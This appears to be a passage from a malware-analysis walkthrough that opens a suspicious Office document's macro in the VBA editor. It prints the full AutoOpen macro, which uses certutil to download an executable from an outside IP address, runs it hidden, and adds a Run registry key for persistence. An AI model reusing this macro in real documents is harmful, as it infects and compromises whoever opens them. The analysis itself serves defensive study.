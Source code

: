 ![66b36e2379a5d0220fc6b99e-1724324603178](https://github.com/user-attachments/assets/9f3f2654-b7ec-4d51-8039-e5a05a6a7c8a)

View > Macros. In the newly opened window we can see that there is, in fact, a macro inside this document. Let's select it and open it by clicking on the Edit button on the right.

![66b36e2379a5d0220fc6b99e-1724324602560](https://github.com/user-attachments/assets/51bce936-bbf6-4d65-be34-9aa860c30191)

Analysing the Macro
The VBA (Visual Basic for Applications) Editor opens in a new window, and we can start analysing the instructions contained in the macro for signs of malicious code.

strURL = "http://172.233.61.246/32th4ckm3.exe"
    strFilePath = Environ("TEMP") & "\32th4ckm3.exe"

![66b36e2379a5d0220fc6b99e-1724324602830](https://github.com/user-attachments/assets/b00ee55f-7aa7-4922-ad19-0c7e65f10cea)

```
Sub AutoOpen()
    Dim strURL As String
    Dim strFilePath As String
    Dim strCmd As String
    
    If GetObject("winmgmts:\\.\root\cimv2").ExecQuery("SELECT * FROM Win32_Process WHERE Name = '32th4ckm3.exe'").Count > 0 Then Exit Sub
    
    strURL = "http://172.233.61.246/32th4ckm3.exe"
    strFilePath = Environ("TEMP") & "\32th4ckm3.exe"
    strCmd = "cmd /c certutil -urlcache -split -f """ & strURL & """ """ & strFilePath & """"
    Shell strCmd, vbHide
    Wait (10)
    Shell strFilePath, vbHide
    
    strCmd = "cmd /c reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v DefaultApp /t REG_SZ /d """ & strFilePath & """ /f"
    Shell strCmd, vbHide
End Sub

Sub Wait(seconds As Single)
    Dim endTime As Single
    endTime = Timer + seconds
    Do While Timer < endTime
        DoEvents
    Loop
End Sub


```

-------------------------Analysis-----------------------------------

strURL = "http://172.233.61.246/32th4ckm3.exe

strFilePath = Environ("TEMP") & "\32th4ckm3.exe
